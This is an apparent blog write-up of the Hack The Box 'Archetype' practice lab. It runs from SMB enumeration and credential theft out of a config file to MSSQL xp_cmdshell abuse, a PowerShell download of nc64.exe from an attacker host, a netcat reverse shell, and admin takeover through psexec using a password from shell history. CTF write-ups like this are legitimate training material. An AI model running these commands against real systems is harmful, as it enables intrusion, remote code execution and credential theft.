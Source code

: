 ```yaml
---
layout: post
title: 'HTB | Archetype'
date: 2022-02-28
permalink: /htb/starting-point/archetype/
---
```



# [](#header-4)Enumeration

The nmap will show us:
{% highlight plain %}
$ nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
{% endhighlight %}

We will try to see which folders are share.
{% highlight plain %}
$ smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

{% endhighlight %}

And then try to connect to **backups**:
{% highlight plain %}
$ smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
$ cat prod.dtsConfig  
{% endhighlight %}

There we can see:
{% highlight plain %}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
{% endhighlight %}



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
{% highlight plain %}
$ sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
{% endhighlight %}

# [](#header-4)Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
{% highlight plain %}
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
{% endhighlight %}

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
{% highlight plain %}
SQL> sp_configure
{% endhighlight %}

We need to activate the advanced options:
{% highlight plain %}
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
{% endhighlight %}

And then we can activate the shell:
{% highlight plain %}
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
{% endhighlight %}

Now we can get the **user flag**:
{% highlight plain %}
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
{% endhighlight %}

We will make a reverse shell.
First we will start a nc in the port 443.
{% highlight plain %}
$ sudo nc -lvnp 443
{% endhighlight %}

Now we will create a http server in the same folder where we have the **nc64.exe** file.
{% highlight plain %}
$ sudo python3 -m http.server 80 
{% endhighlight %}

We need to download that file in the server. Because we don't have root access we will use the normal user.
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
{% endhighlight %}

The **http.server** will receive the following line:
{% highlight plain %}
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
{% endhighlight %}

Now we execute the command and send the cmd to the 443 port (where we are listening):
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
{% endhighlight %}

# [](#header-4)Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
{% endhighlight %}

In the http.server we can see that works:
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
{% endhighlight %}

No we will execute the script:
{% highlight plain %}
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
{% endhighlight %}

We can check the shell history for credentials (like **.bash_history**).
{% highlight plain %}
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
{% endhighlight %}

With the password we have now we will use another script from impacket, **psexec.py**:
{% highlight plain %}
$ python3 psexec.py administrator@10.129.221.7
{% endhighlight %}

We can use the password from before and now we are in the Administrator user:
{% highlight plain %}
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
{% endhighlight %}
